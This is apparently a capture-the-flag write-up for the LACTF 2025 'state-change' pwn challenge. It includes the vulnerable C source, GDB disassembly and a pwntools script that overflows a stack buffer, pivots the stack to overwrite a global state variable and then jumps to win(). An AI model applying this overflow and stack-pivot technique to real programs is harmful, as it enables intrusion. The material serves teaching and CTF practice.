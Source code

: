 ```yaml
---
layout: default
title: LACTF 2025 pwn/state-change
description: "by devilmanCr0"
---
```


# A quick writeup for state-changer

This explains the challenge's vulnerability as well as the exploitation script to accompany it.

## Stack pivoting 

The problem lies in the fact that we need to get around the win condition in order to read out the contents of the flag, so we need to pivot our stack to write and manipulate the win condition.

There's no need to do anything extra aside from a little bit of jumping.
PIE is disabled, so addresses will be consistent and static across machines.

For those who are new to buffer overflows, check here
[https://ctf101.org/binary-exploitation/buffer-overflow/](https://ctf101.org/binary-exploitation/buffer-overflow/)

Here is the code for the challenge
```c
#include <stdio.h>
#include <string.h>

char buf[0x500]; // Wow so useful
int state;
char errorMsg[0x70];

void win() {
    char filebuf[64];
    strcpy(filebuf, "./flag.txt");
    FILE* flagfile = fopen("flag.txt", "r");

    /* ********** ********** */
    // Note this condition in win()
    if(state != 0xf1eeee2d) {
        puts("\ntoo ded to gib you the flag");
        exit(1);
    }
    /* ********** ********** */
    
    if (flagfile == NULL) {
        puts(errorMsg);
    } else {
        char buf[256];
        fgets(buf, 256, flagfile);
        buf[strcspn(buf, "\n")] = '\0';
        puts("Here's the flag: ");
        puts(buf);
    }
}

void vuln(){
    char local_buf[0x20];
    puts("Hey there, I'm deaddead. Who are you?");
    fgets(local_buf, 0x30, stdin);
}

int main(){

    state = 0xdeaddead;
    strcpy(errorMsg, "Couldn't read flag file. Either create a test flag.txt locally and try connecting to the server to run instead.");

    setbuf(stdin, 0);
	setbuf(stdout, 0);

    vuln();
    
    return 0;
}

```

The `vuln` function and the global `buf` function are our gateway for winning. When we overflow the `vuln` buffer, we should find a way to change the `state` defined in the `win` function.

Take a look at this GDB disassembly of vuln

```gdb
   0x00000000004012b5 <+0>:	endbr64
   0x00000000004012b9 <+4>:	push   rbp
   0x00000000004012ba <+5>:	mov    rbp,rsp
   0x00000000004012bd <+8>:	sub    rsp,0x20
   0x00000000004012c1 <+12>:	lea    rax,[rip+0xd80]        # 0x402048
   0x00000000004012c8 <+19>:	mov    rdi,rax
   0x00000000004012cb <+22>:	call   0x401090 <puts@plt>
   0x00000000004012d0 <+27>:	mov    rdx,QWORD PTR [rip+0x2d59]        # 0x404030 <stdin@GLIBC_2.2.5>
   0x00000000004012d7 <+34>:	lea    rax,[rbp-0x20] # <<<---- interesting
   0x00000000004012db <+38>:	mov    esi,0x30
   0x00000000004012e0 <+43>:	mov    rdi,rax
   0x00000000004012e3 <+46>:	call   0x4010c0 <fgets@plt>
   0x00000000004012e8 <+51>:	nop
   0x00000000004012e9 <+52>:	leave
   0x00000000004012ea <+53>:	ret
```

If we overflow this `vuln` function to jump to itself, we can perform a stack pivot due to the instruction at `vuln+34`.

For our first input we can overwrite the return address to jump to `vuln`+27 so that we can get another input + our stack pivot.

Taking a look at the local variables of this binary, the globally defined `state` and `buf` are available by address in the process. 


```gdb
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
0x000000000040038c  __abi_tag
... snipped ...
0x0000000000404040  buf
0x0000000000404540  state
0x0000000000404560  errorMsg
... snipped ...
```


Because all functions and variables have static addresses, we can do the following to exploit this chall.

1. Return to the same "vuln" function on overflow and 
stack pivot to the approximate position of the address of `state"

2. On the second rerun of `fgets` in vuln, overwrite the `state` variable to the correct `0xf1eeee2d` value, overflowing to the `win` function at the end.

## Visual Understanding

![stack_pivot_diag](../assets/images/stack-pivot/diagram.png)

I use python and pwnlibs to automate this process. Note that minor adjustments were made to the pivot address so that we can deal with memory alignment issues with the stack when overwrite the `state` value.


```python
from pwn import *

context.arch = "amd64"

conn = process("./chall")
#conn = remote("chall.lac.tf", 31593)

e = ELF("chall")

padding=b"AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa"
padding=padding[:-8]
win=e.sym["win"]
vuln=e.sym["vuln"]

#padding+=p64(0x40453f+0x20)
padding+=p64(e.sym["state"]+0x1f) # stack alignment
padding+=p64(vuln+27) 
print(padding)
input()

conn.send(padding)

second_padding =p64(0xf1eeee2d)
second_padding+=p64(0x12345678)
second_padding+=p64(0x12345678)
second_padding+=p64(0x12345678)
second_padding+=p64(0x12345678)[:-1] # stack alignment
second_padding+=p64(win)
conn.sendline(second_padding)

print(conn.recvall())

```


![stack_pivot](../assets/images/stack-pivot/successful.png)
